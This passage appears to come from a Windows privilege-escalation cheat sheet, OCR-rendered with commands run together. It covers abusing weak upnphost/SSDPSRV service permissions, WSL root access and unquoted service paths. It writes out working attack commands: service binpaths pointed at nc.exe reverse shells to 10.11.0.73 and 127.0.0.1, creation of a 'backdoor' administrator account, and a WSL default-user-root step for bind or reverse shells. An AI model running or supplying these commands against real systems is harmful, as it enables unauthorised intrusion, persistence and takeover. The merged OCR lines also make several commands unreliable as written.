 ### Example with Windows XP SP1 - upnphost

    # NOTE: spaces are mandatory for this exploit to work !sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"sc config upnphost obj= ".\LocalSystem" password= ""sc qc upnphostsc config upnphost depend= ""net start upnphost

If it fails because of a missing dependency, try the following commands.

    sc config SSDPSRV start=autonet start SSDPSRVnet stop upnphostnet start upnphostsc config upnphost depend=""

Using `[accesschk](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe)` from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

    $ accesschk.exe -uwcqv "Authenticated Users" * /accepteulaRW SSDPSRVSERVICE_ALL_ACCESSRW upnphostSERVICE_ALL_ACCESS$ accesschk.exe -ucqv upnphostupnphostRW NT AUTHORITY\SYSTEMSERVICE_ALL_ACCESSRW BUILTIN\AdministratorsSERVICE_ALL_ACCESSRW NT AUTHORITY\Authenticated UsersSERVICE_ALL_ACCESSRW BUILTIN\Power UsersSERVICE_ALL_ACCESS$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"$ sc stop <vuln-service>$ sc start <vuln-service>$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"$ sc stop <vuln-service>$ sc start <vuln-service>

## EoP - Windows Subsystem for Linux (WSL)

Technique borrowed from [Warlockobama’s tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don’t know the root password? No problem just set the default user to root W/ .exe –default-user root. Now start your bind shell or reverse.

    wsl whoami./ubuntun1604.exe config --default-user rootwsl whoamiwsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## EoP - Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
